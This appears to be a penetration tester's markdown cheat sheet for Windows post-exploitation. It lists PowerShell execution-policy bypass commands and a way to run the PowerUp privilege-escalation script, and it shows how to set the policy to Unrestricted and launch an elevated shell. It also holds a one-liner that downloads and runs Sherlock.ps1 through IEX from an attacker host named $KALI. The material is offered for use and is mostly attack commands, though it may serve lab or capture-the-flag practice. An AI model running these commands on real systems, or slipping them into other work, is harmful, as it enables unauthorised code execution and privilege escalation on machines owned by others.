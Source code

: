 ```yaml
---
category: Uncategorized
tags: []
---
```

[[rlwrap]]

#### Execution bypass
```powershell - windows
powershell -ep bypass
```

If shell gets stuck here, you can still run PowerShell files like this:

```powershell - windows
powershell -ep bypass .\PowerUp.ps1
```

### SET EXECUTION ON

#### 1st method
```powershell - windows
powershell Get-ExecutionPolicy
```

```powershell - windows
powershell Set-ExecutionPolicy Unrestricted
```

```powershell - windows
powershell Get-ExecutionPolicy
```

#### 2nd method
```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

```powershell - windows
powershell Set-ExecutionPolicy unrestricted -Scope CurrentUser
```

```powershell - windows
powershell Get-ExecutionPolicy -Scope CurrentUser
```

#### Download and execute form CMD
```command prompt - windows
echo IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/Sherlock.ps1') | powershell -noprofile -
```

RDP - Run PowerShell as Admin
```powershell - windows
start-process powershell -verb runas
```
